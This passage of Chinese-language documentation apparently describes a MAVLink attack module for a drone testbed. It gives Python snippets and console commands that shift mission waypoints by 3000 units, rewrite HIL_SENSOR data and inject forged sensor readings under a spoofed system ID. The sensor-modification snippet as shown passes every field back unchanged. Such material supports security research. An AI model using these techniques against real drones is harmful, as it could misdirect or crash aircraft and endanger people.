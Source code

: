 ### 2. 消息修改攻击 (Message Modification)

**功能**: 修改任务项消息
**实现方式**:
```python
if self.message_modification:
    if m.get_type() == "MISSION_ITEM_INT":
        m.__init__(m.target_system, m.target_component, m.seq, m.frame, m.command, m.current,
                   m.autocontinue, m.param1, m.param2, m.param3, m.param4, m.x+3000, m.y+3000, m.z, m.mission_type)
        m.pack(mav)
```

**攻击效果**:
- 修改任务坐标，在 x 和 y 方向上增加 3000 单位
- 导致无人机飞向错误的目标位置

**使用方法**:
```bash
attack message_modification
```

### 3. 传感器修改攻击 (Sensor Modification)

**功能**: 修改传感器数据
**实现方式**:
```python
if self.sensor_modification:
    msg_type = m.get_type()
    if msg_type == "HIL_SENSOR":
        if m.id == 0:
            m.__init__(m.time_usec, m.xacc, m.yacc, m.zacc, m.xgyro, m.ygyro, m.zgyro, m.xmag, m.ymag, m.zmag, 
                      m.abs_pressure, m.diff_pressure, m.pressure_alt, m.temperature, m.fields_updated)
            m.pack(mav)
```

**攻击效果**:
- 修改 HIL_SENSOR 消息中的传感器数据
- 影响无人机的姿态估计和导航

**使用方法**:
```bash
attack sensor_modification on
attack sensor_modification off
```

### 4. 传感器注入攻击 (Sensor Injection)

**功能**: 注入虚假传感器数据
**实现方式**:
```python
if self.sensor_injection:
    if m.get_type() == "HIL_SENSOR":
        new_mav = self.mpstate.mav_master[0].mav
        new_mav.srcSystem = 1
        new_mav.srcComponent = 1
        new_mav.hil_sensor_send(m.time_usec-1, 0.1, 0.1, 0.1, 0, 0, 0,
                               1, 1, 1, -3.94092e+29, 4.58141e-41, -9.61733e-41, 4.58127e-36, 63, 0)
```

